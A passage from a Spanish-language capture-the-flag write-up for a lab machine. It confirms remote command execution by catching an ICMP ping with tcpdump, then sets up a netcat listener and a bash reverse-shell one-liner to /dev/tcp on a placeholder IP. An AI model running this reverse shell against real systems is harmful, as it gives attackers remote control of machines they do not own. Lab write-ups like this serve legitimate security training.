 Abre un capturador de **trazas ICMP** con **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Ahora, haz un **ping** a tu máquina indicando un solo paquete y ejecuta el comando:

<p align="center">
<img src="/assets/images/THL-writeup-nodeCeption/Captura26.png">
</p>

Revisa el **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
16:19:30.567932 IP 192.168.100.120 > Tu_IP: ICMP echo request, id 16742, seq 1, length 64
16:19:30.568712 IP Tu_IP > 192.168.100.120: ICMP echo reply, id 16742, seq 1, length 64
...
14 packets captured
14 packets received by filter
0 packets dropped by kernel
```
Excelente, tenemos conexión.

Vamos a mandarnos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Usemos el siguiente comando:
```bash
bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'
```

Escribelo en el input y ejecútalo:
